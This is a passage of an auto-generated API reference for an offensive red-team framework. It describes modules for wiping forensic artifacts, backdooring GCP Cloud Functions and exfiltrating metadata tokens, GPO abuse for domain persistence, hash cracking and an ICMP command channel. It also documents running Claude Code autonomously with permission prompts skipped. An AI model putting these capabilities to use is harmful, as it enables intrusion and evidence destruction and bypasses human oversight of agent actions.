    clean_prefetch: Remove Windows Prefetch files (.pf).
    clean_shimcache: Clear Windows Shimcache (AppCompatCache).
    clean_amcache: Clear Windows Amcache registry entries.
    clean_usn_journal: Purge Windows USN journal.
    clean_jump_lists: Remove Windows Jump Lists.
    clean_recent_files: Clear Recent files and MRU lists.
    clean_shellbags: Clear Windows Shellbags (explorer paths).
    clean_lnk_files: Remove LNK shortcut files in Recent dirs.
    clean_mru: Clear Most Recently Used (MRU) registry entries.
    clean_thumbnail_cache: Remove thumbnail cache files.
    clean_mft_records: Overwrite deleted MFT records (requires defrag + sdelete).
    verify: Run verification checks after cleaning.*
- `ForensicCleaner` (line 57) `class ForensicCleaner` - *Generate artifact removal commands for Windows, Linux, and macOS.

Each method produces platform-native commands that can be executed
directly on the target or wrapped in a C2 command dispatch.

Attributes:
    config: ForensicCleanerConfig for target and artifact selection.*

**Methods:**
- `__init__` (line 67) `def __init__(self, config)`
- `windows_cleanup` (line 70) `def windows_cleanup(self)` - *Generate Windows forensic artifact cleanup commands.

Returns:
    Dict with PowerShell/batch commands organized by artifact type.*
- `linux_cleanup` (line 165) `def linux_cleanup(self)` - *Generate Linux forensic artifact cleanup commands.

Returns:
    Dict with bash commands for shell history, log cleanup,
    and filesystem timestamp manipulation.*
- `macos_cleanup` (line 193) `def macos_cleanup(self)` - *Generate macOS forensic artifact cleanup commands.

Returns:
    Dict with zsh commands for macOS-specific artifacts.*
- `windows_prefetch_parse` (line 221) `def windows_prefetch_parse(self, prefetch_path)` - *Parse Prefetch files to identify what the attacker should clean.

Args:
    prefetch_path: Directory containing .pf files.

Returns:
    Dict with Prefetch analysis commands.*
- `amcache_parse` (line 259) `def amcache_parse(self)` - *Parse Amcache registry entries for evidence of execution.

Returns:
    Dict with Amcache parsing commands.*

#### `gcp_attacks.py`
**Path:** `modules/gcp_attacks.py`
**File Doc:** *GCP privilege escalation — service account impersonation, Cloud Functions, GCS enumeration.  Provides attack primitives for Google Cloud Platform: service account IAM abuse, Cloud Functions backdoor insertion, Compute Engine metadata exfiltration, Cloud Storage bucket enumeration, and organization-level privilege escalation across GCP projects.  Uses google-cloud-* libraries when available; provides raw REST API commands.*

**Classes:**
- `GCPConfig` (line 57) `class GCPConfig` - *Configuration for GCP attack operations.

Attributes:
    project_id: GCP project ID.
    organization_id: GCP organization ID.
    service_account_email: Target service account.
    access_token: OAuth2 access token.
    zone: GCP compute zone.
    region: GCP region.*
- `GCPAttackEngine` (line 77) `class GCPAttackEngine` - *Execute GCP privilege escalation and enumeration attacks.

Implements service account impersonation, Cloud Functions backdoors,
GCS bucket enumeration, Compute Engine metadata exfiltration, and
organization-level escalation paths.

Attributes:
    config: GCPConfig with project and credentials.*

**Methods:**
- `__init__` (line 90) `def __init__(self, config)`
- `enumerate_iam_policy` (line 93) `def enumerate_iam_policy(self, resource)` - *Enumerate IAM policies for projects, folders, or organizations.

Args:
    resource: Resource path (e.g., projects/PROJECT_ID).

Returns:
    Dict with IAM enumeration commands and bindings.*
- `service_account_impersonation` (line 119) `def service_account_impersonation(self)` - *Exploit service account impersonation for privilege escalation.

Users with iam.serviceAccounts.actAs can impersonate any service
account and obtain its permissions.

Returns:
    Dict with impersonation commands and OAuth token generation.*
- `cloud_functions_backdoor` (line 144) `def cloud_functions_backdoor(self)` - *Backdoor Cloud Functions for privilege escalation.

Modifies a Cloud Function's code to exfiltrate its attached service
account's access token by querying the metadata server.

Returns:
    Dict with Cloud Function backdooring commands.*
- `compute_engine_metadata_exfil` (line 173) `def compute_engine_metadata_exfil(self)` - *Exfiltrate GCE instance metadata and service account tokens.

GCE instances expose metadata via a local HTTP endpoint. This includes
service account access tokens, SSH keys, and startup scripts.

Returns:
    Dict with metadata exfiltration commands.*
- `gcs_enumeration` (line 194) `def gcs_enumeration(self)` - *Enumerate Cloud Storage buckets for sensitive data.

Maps accessible buckets, checks permissions, and identifies
buckets containing credentials, configs, or backup data.

Returns:
    Dict with GCS enumeration commands.*
- `cloudbuild_abuse` (line 230) `def cloudbuild_abuse(self)` - *Abuse Cloud Build for privilege escalation.

Cloud Build runs with the Cloud Build service account by default.
Modifying the build configuration can execute arbitrary code with
the service account's permissions.

Returns:
    Dict with Cloud Build abuse commands.*
- `organization_escalation` (line 261) `def organization_escalation(self)` - *Escalate from project-level to organization-level access.

If the attacker has project ownership and the organization policies
allow, escalate to organization-level privileges.

Returns:
    Dict with organization escalation paths.*
- `summary` (line 297) `def summary(self)`

#### `generate_tools.py`
**Path:** `modules/generate_tools.py`
**File Doc:** *generate_tools.py*

**Functions:**
- `extract_cmd2_tools` (line 6) `def extract_cmd2_tools(script_path)`

#### `goals.py`
**Path:** `modules/goals.py`
**File Doc:** *Goal decomposition round-0 with constraints and proof.  Ports the LAZY ``agent/goals.go`` + ``agent/constraints.go`` contract: round-0 splits a free-text objective into discrete verifiable goals, records task constraints (allow/deny, highest priority), registers the explicit asset scope, and proves goals from evidence. ``goal_met`` ends the whole task and is opt-in (default unbound, LAZY parity).*

**Classes:**
- `GoalSpec` (line 20) `class GoalSpec` - *One decomposed verifiable objective.*
- `TaskConstraints` (line 29) `class TaskConstraints` - *Allow/deny constraints with deny-wins semantics (LAZY parity).*
- `GoalTracker` (line 117) `class GoalTracker` - *Round-0 goals with prove_goal / goal_met semantics.*

**Functions:**
- `decompose_rule_based` (line 63) `def decompose_rule_based(objective_text, max_goals)` - *Split objective text into goal specs without an LLM (deterministic).*
- `load_constraints` (line 83) `def load_constraints(payload)` - *Build constraints from payload config (deny wins, LAZY parity).*
- `constraint_block_text` (line 103) `def constraint_block_text(constraints)` - *Render the constraint block injected at max priority (LAZY parity).*

**Methods:**
- `blocked` (line 35) `def blocked(self, command)` - *Return the blocking constraint or empty string.*
- `__init__` (line 120) `def __init__(self, goals)` - *Bind to an initial goal list.*
- `goals` (line 125) `def goals(self)` - *Return a copy of tracked goals.*
- `prove_goal` (line 129) `def prove_goal(self, goal_text, evidence)` - *Mark one goal achieved from evidence; return True when found.*
- `goal_met` (line 140) `def goal_met(self, opt_in)` - *End the whole task; requires explicit opt-in (default unbound).*
- `all_achieved` (line 148) `def all_achieved(self)` - *Return True when every goal is achieved.*
- `open_goals` (line 152) `def open_goals(self)` - *Return goals still open.*

#### `gpo_abuse.py`
**Path:** `modules/gpo_abuse.py`
**File Doc:** *GPO abuse module — Group Policy Object manipulation for AD persistence and privilege escalation.  Exploits Group Policy Objects through multiple vectors: GPO link enumeration, SYSVOL file modification (immediate scheduled tasks), WMI filter abuse, GPO ACL manipulation, and GPO-based software deployment.  GPO modifications propagate to all scoped computers/users — a single compromised GPO can provide domain-wide persistence or privilege escalation.*

**Classes:**
- `GPOInfo` (line 54) `class GPOInfo` - *Information about a Group Policy Object.

Attributes:
    display_name: GPO display name.
    guid: GPO GUID.
    gpc_path: Group Policy Container path in AD.
    gpt_path: Group Policy Template path in SYSVOL.
    linked_ous: List of OUs this GPO is linked to.
    linked_sites: List of AD sites this GPO applies to.
    gpo_status: Enabled/Disabled/Enforced.
    applies_to: Computers or Users (or both).
    owner: Security principal that owns the GPO.
    interesting_acls: Non-default ACLs on the GPO.*
- `GPOAbusePlan` (line 83) `class GPOAbusePlan` - *Exploitation plan for an abusable GPO.

Attributes:
    gpo_name: Target GPO display name.
    technique: Abuse technique from GPO_ABUSE_TECHNIQUES.
    payload_type: Type of payload to inject (command, script, registry, etc.).
    target_scope: Which computers/users will be affected.
    trigger_timing: When the GPO change takes effect (reboot, gpupdate, logon).
    commands: PowerShell/command-line exploitation commands.
    cleanup_commands: Commands to revert the abuse.*
- `GPOAbuseEngine` (line 105) `class GPOAbuseEngine` - *Enumerate and exploit Group Policy Objects for AD compromise.

Provides plans for GPO-based privilege escalation, persistence,
lateral movement, and code execution across domain-joined hosts.

Attributes:
    domain: Target domain FQDN.
    dc_ip: Domain controller IP.
    gpos: Discovered GPOs.
    abuse_plans: Generated exploitation plans.*

**Methods:**
- `__init__` (line 118) `def __init__(self, domain, dc_ip)`
- `parse_gpo_list` (line 124) `def parse_gpo_list(self, raw_gpo_output)` - *Parse Get-GPO or ldapsearch output for GPO information.

Args:
    raw_gpo_output: Text output from GPO enumeration tools.

Returns:
    List of parsed GPOInfo objects.*
- `parse_bloodhound_gpos` (line 160) `def parse_bloodhound_gpos(self, bloodhound_nodes)` - *Parse BloodHound GPO nodes for abusable policies.

Args:
    bloodhound_nodes: List of BloodHound GPO node dicts.

Returns:
    List of GPOInfo objects.*
- `plan_scheduled_task` (line 182) `def plan_scheduled_task(self, gpo, command, task_name)` - *Plan a GPO-backed scheduled task for immediate code execution.

Args:
    gpo: Target GPO.
    command: Command to execute on target machines.
    task_name: Task name in Task Scheduler.

Returns:
    GPOAbusePlan with scheduled task deployment instructions.*
- `plan_startup_script` (line 208) `def plan_startup_script(self, gpo, script_content, script_name)` - *Plan a GPO startup script for persistence via SYSVOL.

Args:
    gpo: Target GPO.
    script_content: PowerShell script content to deploy.
    script_name: Script filename in SYSVOL.

Returns:
    GPOAbusePlan with startup script deployment.*
- `plan_logon_script` (line 238) `def plan_logon_script(self, gpo, command)` - *Plan a GPO user logon script for user-triggered code execution.

Args:
    gpo: Target GPO.
    command: Command to execute on user logon.

Returns:
    GPOAbusePlan with logon script configuration.*
- `plan_local_admin_addition` (line 266) `def plan_local_admin_addition(self, gpo, username, group)` - *Plan adding a user to the local Administrators group via GPO preferences.

Args:
    gpo: Target GPO.
    username: Username to add.
    group: Local group to add to (default: Administrators).

Returns:
    GPOAbusePlan with local group modification.*
- `plan_wmi_filter_abuse` (line 293) `def plan_wmi_filter_abuse(self, gpo, wmi_query)` - *Plan WMI filter abuse for targeted GPO scope control.

Abusive WMI filters can scope a GPO to specific hosts dynamically.

Args:
    gpo: Target GPO.
    wmi_query: WQL query for host targeting.

Returns:
    GPOAbusePlan with WMI filter configuration.*
- `plan_registry_preference` (line 322) `def plan_registry_preference(self, gpo, registry_path, value_name, value_data, value_type)` - *Plan a registry modification via GPO preferences.

Can enable RDP, disable firewall, add autorun entries, etc.

Args:
    gpo: Target GPO.
    registry_path: Full registry key path.
    value_name: Value name to set.
    value_data: Value data.
    value_type: Registry value type.

Returns:
    GPOAbusePlan with registry preference commands.*
- `plan_service_installation` (line 356) `def plan_service_installation(self, gpo, service_name, binary_path)` - *Plan a service installation via GPO for SYSTEM-level persistence.

Args:
    gpo: Target GPO.
    service_name: Display name for the service.
    binary_path: Path to the service binary.

Returns:
    GPOAbusePlan with service installation commands.*
- `generate_all_plans` (line 382) `def generate_all_plans(self, command, username)` - *Generate all abuse plans for the discovered GPOs.

Args:
    command: Payload command to execute.
    username: Attacker username for local admin addition.

Returns:
    List of GPOAbusePlan for all GPOs and techniques.*
- `detect_risky_gpos` (line 406) `def detect_risky_gpos(self)` - *Identify GPOs with risky configurations for post-compromise cleanup.

Scans for startup scripts, scheduled tasks, software installs,
and other GPO settings that might indicate adversary persistence.

Returns:
    List of risky GPO findings.*
- `summary` (line 434) `def summary(self)` - *Return a summary of GPO abuse capabilities.

Returns:
    Dict with GPO count, techniques, and abuse plans.*

#### `hash_cracker.py`
**Path:** `modules/hash_cracker.py`
**File Doc:** *Hash cracking pipeline — John the Ripper and Hashcat integration.  Parses hash formats from secretsdump output, identifies hash types, and runs the appropriate cracker. Results feed back into the LazyOwnDB credentials table.  Design (SOLID): - Single Responsibility: HashCracker only cracks hashes. - Open/Closed: new hash formats added via HASH_FORMATS dict. - Liskov: any cracker (John, Hashcat) implements CrackBackend protocol. - Interface Segregation: identify(), crack(), and import_results(). - Dependency Inversion: depends on abstract backend, not concrete binary.  Usage: from modules.hash_cracker import HashCracker  cracker = HashCracker(wordlist="/usr/share/wordlists/rockyou.txt") results = cracker.crack_file("sessions/hashes_10.10.11.5.txt") cracker.import_to_db(results, rhost="10.10.11.5")*

**Classes:**
- `CrackResult` (line 127) `class CrackResult`
- `HashIdentifier` (line 140) `class HashIdentifier`
- `HashCracker` (line 151) `class HashCracker` - *Pipeline for identifying and cracking password hashes.

Supports John the Ripper and Hashcat backends. Automatically selects
the best available cracker per hash format.

Attributes:
    wordlist: Path to wordlist file for dictionary attacks.
    rules: John rules to apply (default: ``--rules=best64``).
    use_hashcat: Prefer Hashcat over John when available.
    timeout: Max cracking time in seconds per format group.*

**Functions:**
- `crack_secretsdump_output` (line 695) `def crack_secretsdump_output(filepath, wordlist, rhost)` - *Convenience function: crack a secretsdump output file and import results.

Args:
    filepath: Path to secretsdump output with hashes.
    wordlist: Override wordlist path.
    rhost: Target IP for DB import.

Returns:
    List of CrackResult.*

**Methods:**
- `__init__` (line 164) `def __init__(self, wordlist, rules, use_hashcat, timeout)`
- `_resolve_wordlist` (line 178) `def _resolve_wordlist(self)`
- `identify` (line 186) `def identify(self, line)` - *Identify the hash type of a single line.

Args:
    line: A hash string (with or without username prefix).

Returns:
    HashIdentifier if recognized, None otherwise.*
- `identify_file` (line 273) `def identify_file(self, filepath)` - *Parse a hash file and group hashes by type.

Args:
    filepath: Path to file containing hashes (e.g. secretsdump output).

Returns:
    Dict mapping hash_type -> list of HashIdentifier.*
- `crack_hash` (line 295) `def crack_hash(self, hash_value, hash_type, wordlist)` - *Attempt to crack a single hash.

Args:
    hash_value: The hash string to crack.
    hash_type: Known hash type (auto-detected if None).
    wordlist: Override wordlist path.

Returns:
    CrackResult with cracked password if successful.*
- `crack_file` (line 349) `def crack_file(self, filepath, wordlist, hash_types)` - *Crack all hashes in a file.

Args:
    filepath: Path to file containing hashes.
    wordlist: Override wordlist path.
    hash_types: Filter to only crack specific hash types.

Returns:
    List of CrackResult with cracked passwords.*
- `import_to_db` (line 405) `def import_to_db(self, results, rhost, workspace_name)` - *Import cracked results into the LazyOwnDB credentials table.

Args:
    results: Crack results from crack_file().
    rhost: Target IP for associating credentials.
    workspace_name: DB workspace to use.

Returns:
    Number of credentials imported.*
- `_crack_hashcat` (line 454) `def _crack_hashcat(self, hash_value, hash_type, fmt_info, wordlist)`
- `_crack_batch_hashcat` (line 500) `def _crack_batch_hashcat(self, idents, hash_type, fmt_info, wordlist)`
- `_crack_john` (line 560) `def _crack_john(self, hash_value, hash_type, fmt_info, wordlist)`
- `_crack_batch_john` (line 610) `def _crack_batch_john(self, idents, hash_type, fmt_info, wordlist)`
- `_parse_hashcat_output` (line 671) `def _parse_hashcat_output(stdout, stderr, original)`
- `_parse_john_show` (line 686) `def _parse_john_show(show_output, original)`

#### `hive_invoke.py`
**Path:** `modules/hive_invoke.py`
**File Doc:** *modules/hive_invoke.py ======================= Invokes Claude Code CLI with the LazyOwn MCP server and forwards an operator prompt for autonomous or hive-mind execution.  Claude Code will have access to the lazyown MCP server (configured in ~/.claude.json) and will use its tools to fulfil the request.  Usage (via hive addon) ---------------------- hive enumerate all SMB shares on 10.10.11.78 hive spawn 3 drones to perform AD enumeration hive start autonomous mode targeting 10.10.11.78 hive what hosts and credentials have been captured so far hive -i enumerate Active Directory on 10.10.11.78  (interactive mode)  Usage (direct) -------------- python3 modules/hive_invoke.py [OPTIONS] <prompt words ...>  Options ------- -i, --interactive     Open Claude Code in interactive REPL mode so the operator can follow up after the initial response. Default: non-interactive print mode (-p). -e, --effort LEVEL    Effort level passed to Claude: low | medium | high | max Default: high. -h, --help            Show this help message and exit.*

**Functions:**
- `_get_toposwarm` (line 50) `def _get_toposwarm()`
- `_find_claude` (line 115) `def _find_claude()` - *Return the absolute path to the claude binary, or None if not found.*
- `_parse_argv` (line 120) `def _parse_argv(argv)` - *Parse argv into (interactive, effort, prompt_words).

Returns
-------
interactive : bool   — True when -i/--interactive is present
effort      : str    — effort level string (default "high")
prompt_words: list   — remaining words that form the prompt*
- `_run_print_mode` (line 150) `def _run_print_mode(prompt, effort, claude_bin)` - *Run Claude Code in non-interactive print mode (-p).
Output streams directly to the terminal.
Permissions are skipped so tool calls execute without prompts.*
- `_run_interactive_mode` (line 172) `def _run_interactive_mode(prompt, effort, claude_bin)` - *Start Claude Code in interactive REPL mode with the prompt pre-loaded as
the first message.  The operator can follow up with additional questions.*
- `_run_toposwarm_mode` (line 205) `def _run_toposwarm_mode(prompt, effort, bridge)` - *Autonomous loop powered by TopoSwarm when Claude Code is unavailable.

Runs the prompt through the TopoSwarm orchestrator, which:
1. Routes NL → LazyOwn tool (neural model or keyword matching)
2. Executes the tool via the LazyOwn PTY bridge
3. Returns the result

For simple routing tasks this is one shot; for agentic goals (effort=high)
it loops up to 5 iterations, feeding each output back as context.*
- `main` (line 255) `def main(argv)`

#### `ia_code_analysis.py`
**Path:** `modules/ia_code_analysis.py`

**Classes:**
- `CodeAnalyzer` (line 28) `class CodeAnalyzer` - *Analyzes source code in a directory and its subdirectories.*

**Functions:**
- `analyze_with_deepseek` (line 66) `def analyze_with_deepseek(code_content, file_path, mode)` - *Sends the code content to DeepSeek for analysis.
Devuelve la respuesta del modelo en fragmentos.*
- `save_results_to_json` (line 123) `def save_results_to_json(results, file_path)` - *Saves the analysis results to JSON files.*
- `start_analysis` (line 169) `def start_analysis(code_dir, mode)` - *Starts the analysis of the specified code directory.*
- `parse_args` (line 178) `def parse_args()`

**Methods:**
- `__init__` (line 33) `def __init__(self, mode)`
- `analyze_directory` (line 37) `def analyze_directory(self, directory)` - *Recursively analyzes all source code files in the specified directory.*
- `analyze_code_file` (line 49) `def analyze_code_file(self, file_path)` - *Analyzes the content of the source code file.*

#### `ia_logs_analysis.py`
**Path:** `modules/ia_logs_analysis.py`
**File Doc:** *log_monitor_bot.py  Author: Your Name Email: youremail@example.com Creation Date: 10/06/2024 License: GPL v3  Description: Real-time log monitoring bot for Linux systems. Monitors logs in /var/log (e.g., SSH, Apache2, Nginx) and uses DeepSeek to detect suspicious activity.*

**Classes:**
- `LogFileHandler` (line 54) `class LogFileHandler(FileSystemEventHandler)` - *Handles file system events for log files.*

**Functions:**
- `analyze_with_deepseek` (line 94) `def analyze_with_deepseek(log_content, mode)` - *Sends log content to DeepSeek for advanced analysis.
Returns the model's response in chunks.*
- `start_monitoring` (line 147) `def start_monitoring(log_dir, mode)` - *Starts monitoring the specified log directory.*
- `parse_args` (line 168) `def parse_args()`

**Methods:**
- `__init__` (line 59) `def __init__(self, mode)`
- `on_modified` (line 64) `def on_modified(self, event)` - *Triggered when a log file is modified.*
- `analyze_log_file` (line 75) `def analyze_log_file(self, file_path)` - *Analyzes the content of the modified log file.*

#### `ia_network_analysis.py`
**Path:** `modules/ia_network_analysis.py`
**File Doc:** *ia_network_analysis.py  Autor: grisun0 Fecha de creación: 30/01/2025 Licencia: GPL v3  Descripción: Bot de monitoreo de tráfico de red en tiempo real. Informa todo el tráfico (IPs, puertos, protocolos) y usa DeepSeek para detectar actividad sospechosa.*

**Functions:**
- `analyze_with_deepseek` (line 39) `def analyze_with_deepseek(packet_info, mode)` - *Envía la información del paquete a DeepSeek para análisis avanzado.
Devuelve la respuesta del modelo en chunks.*
- `packet_callback` (line 91) `def packet_callback(packet, mode)` - *Callback para procesar cada paquete capturado.*
- `start_monitoring` (line 130) `def start_monitoring(interface, timeout, mode)` - *Inicia el monitoreo del tráfico de red.*
- `parse_args` (line 154) `def parse_args()`

#### `icmp_client.py`
**Path:** `modules/icmp_client.py`

**Functions:**
- `encrypt_data` (line 18) `def encrypt_data(data, key)` - *Encrypt bytes with AES-256-GCM returning ``nonce || ciphertext || tag``.

Args:
    data: Plaintext bytes to encrypt.
    key: 32-byte AES-256 key.

Returns:
    Concatenated nonce, ciphertext and authentication tag.*
- `decrypt_data` (line 34) `def decrypt_data(data, key)` - *Decrypt bytes produced by ``encrypt_data`` after authenticating them.

Args:
    data: ``nonce || ciphertext || tag`` payload.
    key: 32-byte AES-256 key.

Returns:
    Decrypted plaintext bytes.

Raises:
    ValueError: If the payload is malformed or the tag fails to verify.*
- `check_sudo` (line 57) `def check_sudo()`
- `checksum` (line 64) `def checksum(source_string)`
- `send_icmp_packet` (line 82) `def send_icmp_packet(dest_addr, data, key)`
- `receive_icmp_reply` (line 117) `def receive_icmp_reply(sock)`
- `main` (line 130) `def main()`

#### `icmp_server.py`
**Path:** `modules/icmp_server.py`

**Functions:**
- `check_sudo` (line 44) `def check_sudo()`
- `encrypt_data` (line 55) `def encrypt_data(data, key)` - *Encrypt bytes with AES-256-GCM returning ``nonce || ciphertext || tag``.

Args:
    data: Plaintext bytes to encrypt.
    key: 32-byte AES-256 key.

Returns:
    Concatenated nonce, ciphertext and authentication tag.*
- `decrypt_data` (line 71) `def decrypt_data(data, key)` - *Decrypt bytes produced by ``encrypt_data`` after authenticating them.

Args:
    data: ``nonce || ciphertext || tag`` payload.
    key: 32-byte AES-256 key.

Returns:
    Decrypted plaintext bytes.

Raises:
    ValueError: If the payload is malformed or the tag fails to verify.*
- `execute_command` (line 93) `def execute_command(command)`
- `send_icmp_reply` (line 112) `def send_icmp_reply(sock, addr, data, key)`
- `checksum` (line 132) `def checksum(source_string)`
- `handle_packet` (line 150) `def handle_packet(packet, addr, key, sock)`
- `listen_for_icmp` (line 175) `def listen_for_icmp(interface, key)`
- `main` (line 202) `def main()`

#### `img2bin.py`
**Path:** `modules/img2bin.py`

**Functions:**
- `imagen_a_binario` (line 7) `def imagen_a_binario(imagen_input, binario_output, block_size)`
- `main` (line 43) `def main()`

#### `__init__.py`
**Path:** `modules/integrations/__init__.py`
**File Doc:** *LazyOwn integrations — bridges to external platforms and tools.  Public API ---------- - :class:`MISPIntegration` — export findings to MISP via REST API - :class:`NucleiBridge` — translate target context into Nuclei scans - :class:`SearchsploitBridge` — query ExploitDB for matching exploits*

*No symbols extracted*

#### `misp_export.py`
**Path:** `modules/integrations/misp_export.py`
**File Doc:** *modules/integrations/misp_export.py ===================================== Exports LazyOwn session findings as MISP-compatible events (JSON format).  Design (SOLID) -------------- - Single Responsibility : each FindingMapper handles exactly one FindingType - Open/Closed           : new types via new FindingMapper subclass, no edits needed - Liskov                : all mappers honour Optional[MISPAttribute] return contract - Interface Segregation : consumers see only FindingMapper; exporter is separate - Dependency Inversion  : MISPExporter depends on FindingMapper abstraction  Usage ----- from modules.integrations.misp_export import get_exporter  exporter = get_exporter() event = exporter.export_session("sessions/") path  = exporter.save(event, "sessions/misp_event.json")  # CLI: python3 modules/integrations/misp_export.py --output sessions/misp_event.json python3 modules/integrations/misp_export.py --output sessions/misp_event.json \\ --misp-url https://misp.example.com --misp-key <API_KEY>*

**Classes:**
- `MISPAttribute` (line 59) `class MISPAttribute` - *A single MISP attribute inside an event.*
- `MISPEvent` (line 70) `class MISPEvent` - *A complete MISP event ready for JSON serialisation or API push.*
- `FindingMapper` (line 86) `class FindingMapper(ABC)` - *Maps a single Finding to a MISPAttribute (or None when not applicable).*
- `IPMapper` (line 103) `class IPMapper(FindingMapper)` - *Maps IP findings to MISP ip-dst attributes.*
- `CredentialMapper` (line 123) `class CredentialMapper(FindingMapper)` - *Maps credential findings to MISP text attributes.*
- `CVEMapper` (line 143) `class CVEMapper(FindingMapper)` - *Maps CVE findings to MISP vulnerability attributes.*
- `DomainMapper` (line 163) `class DomainMapper(FindingMapper)` - *Maps domain findings to MISP domain attributes.*
- `HashMapper` (line 183) `class HashMapper(FindingMapper)` - *Maps hash findings to MISP md5 or sha256 attributes.

Auto-detects hash type by length:
  32 chars -> md5
  64 chars -> sha256*
- `ServiceMapper` (line 218) `class ServiceMapper(FindingMapper)` - *Maps service_version findings to MISP text attributes.*
- `MISPExporter` (line 254) `class MISPExporter` - *Reads LazyOwn session artefacts and produces a MISPEvent.

Parameters
----------
mappers : list of FindingMapper instances (injected for testability)*
- `_DictFinding` (line 451) `class _DictFinding` - *Lightweight wrapper to give dict-based findings the .type / .value interface.*

**Functions:**
- `get_exporter` (line 469) `def get_exporter()` - *Return the module-level MISPExporter singleton.*
- `_main` (line 482) `def _main()`

**Methods:**
- `map` (line 90) `def map(self, finding)` - *Convert *finding* to a MISPAttribute.

Returns None if the finding is not relevant to this mapper.*
- `map` (line 106) `def map(self, finding)`
- `_is_ip` (line 118) `def _is_ip(finding)`
- `map` (line 126) `def map(self, finding)`
- `_is_credential` (line 138) `def _is_credential(finding)`
- `map` (line 146) `def map(self, finding)`
- `_is_cve` (line 158) `def _is_cve(finding)`
- `map` (line 166) `def map(self, finding)`
- `_is_domain` (line 178) `def _is_domain(finding)`
- `map` (line 192) `def map(self, finding)`
- `_is_hash` (line 206) `def _is_hash(finding)`
- `_detect_type` (line 211) `def _detect_type(value)`
- `map` (line 221) `def map(self, finding)`
- `_is_service` (line 233) `def _is_service(finding)`
- `__init__` (line 263) `def __init__(self, mappers)`
- `export_session` (line 268) `def export_session(self, sessions_dir, target)` - *Read policy_facts.json and events.jsonl from *sessions_dir*,
map all findings, and return a populated MISPEvent.*
- `to_json` (line 299) `def to_json(self, event)` - *Serialise *event* to a MISP-compatible JSON string.*
- `save` (line 322) `def save(self, event, path)` - *Write the MISP event JSON to *path* and return the resolved path.*
- `push_to_misp` (line 330) `def push_to_misp(self, event, url, api_key)` - *HTTP-push the event to a live MISP instance.

Returns False gracefully if requests is not available or the push fails.*
- `_load_findings` (line 365) `def _load_findings(self, sdir)` - *Load findings from policy_facts.json and events.jsonl.*
- `_load_policy_facts` (line 372) `def _load_policy_facts(self, sdir)`
- `_load_events` (line 383) `def _load_events(self, sdir)`
- `_dict_to_findings` (line 403) `def _dict_to_findings(data)` - *Convert raw dict/list data into lightweight finding-like objects.*
- `_map_finding` (line 443) `def _map_finding(self, finding)`
- `__init__` (line 454) `def __init__(self, data)`

#### `nuclei_bridge.py`
**Path:** `modules/integrations/nuclei_bridge.py`
**File Doc:** *modules/integrations/nuclei_bridge.py ======================================= Selects and runs Nuclei templates based on discovered services and CVEs from WorldModel/ObsParser.  Design (SOLID) -------------- - Single Responsibility : LocalTemplateIndex indexes templates; NucleiRunner executes - Open/Closed           : new selectors via TemplateSelector subclass - Liskov                : any TemplateSelector can replace LocalTemplateIndex - Interface Segregation : NucleiRunner depends on List[NucleiTemplate], not on selectors - Dependency Inversion  : NucleiBridge depends on TemplateSelector and NucleiRunner abstractions  Usage ----- from modules.integrations.nuclei_bridge import get_bridge  bridge = get_bridge() output = bridge.scan("10.10.11.78", findings)  # List matching templates without running: templates = bridge.list_templates(services=["apache"], cves=["CVE-2021-41773"])  # CLI: python3 modules/integrations/nuclei_bridge.py --target 10.10.11.78 --cve CVE-2021-41773 python3 modules/integrations/nuclei_bridge.py --target 10.10.11.78 --service apache --dry-run*

**Classes:**
- `NucleiTemplate` (line 71) `class NucleiTemplate` - *Metadata extracted from a Nuclei template YAML file.*
- `TemplateSelector` (line 87) `class TemplateSelector(ABC)` - *Interface for selecting Nuclei templates given service/CVE context.*
- `LocalTemplateIndex` (line 104) `class LocalTemplateIndex(TemplateSelector)` - *Scans the local nuclei-templates directory and builds an in-memory index.

Template metadata is parsed from YAML files under
``external/.exploit/nuclei-templates/``.  Falls back gracefully when the
directory does not exist or when PyYAML is not installed (uses regex
parsing instead).*
- `NucleiRunner` (line 279) `class NucleiRunner` - *Builds and executes nuclei commands via subprocess.

Falls back gracefully if nuclei is not installed.*
- `NucleiBridge` (line 389) `class NucleiBridge` - *Top-level facade combining TemplateSelector and NucleiRunner.

Injected dependencies allow easy testing without real nuclei.*
- `_F` (line 483) `class _F`

**Functions:**
- `get_bridge` (line 443) `def get_bridge()` - *Return the module-level NucleiBridge singleton.*
- `_main` (line 456) `def _main()`

**Methods:**
- `select` (line 91) `def select(self, services, cves)` - *Return templates relevant to the provided *services* and *cves*.

Results are sorted: critical > high > medium > low.*
- `__init__` (line 114) `def __init__(self, templates_dir)`
- `select` (line 121) `def select(self, services, cves)`
- `build` (line 141) `def build(self)` - *Force a (re)build of the template index.*
- `_ensure_built` (line 158) `def _ensure_built(self)`
- `_parse_template` (line 162) `def _parse_template(self, path)`
- `_parse_yaml` (line 172) `def _parse_yaml(self, text, path)`
- `_parse_regex` (line 201) `def _parse_regex(self, text, path)`
- `_normalise_tags` (line 238) `def _normalise_tags(raw)`
- `_extract_cve_from_tags` (line 246) `def _extract_cve_from_tags(tags)`
- `_extract_cve_from_text` (line 253) `def _extract_cve_from_text(text)`
- `_matches` (line 258) `def _matches(tmpl, service_lower, cve_upper)`
- `__init__` (line 288) `def __init__(self)`
- `run` (line 293) `def run(self, target, templates, output_dir)` - *Execute nuclei against *target* using the provided *templates*.

Returns the combined stdout/stderr output, or an error string if
nuclei is not installed or execution fails.*
- `run_for_findings` (line 326) `def run_for_findings(self, target, findings, output_dir, selector)` - *Convenience: extract services/CVEs from *findings*, select templates, run.*
- `_build_command` (line 343) `def _build_command(self, target, templates, output_dir)`
- `_extract_context` (line 370) `def _extract_context(findings)`
- `__init__` (line 396) `def __init__(self, selector, runner)`
- `scan` (line 404) `def scan(self, target, findings, dry_run)` - *Select templates from *findings* and run nuclei against *target*.

When *dry_run* is True, return the command string without executing.*
- `list_templates` (line 427) `def list_templates(self, services, cves)` - *Return matching templates without running nuclei.*
- `__init__` (line 484) `def __init__(self, ftype, value)`

#### `nuclei_parser.py`
**Path:** `modules/integrations/nuclei_parser.py`
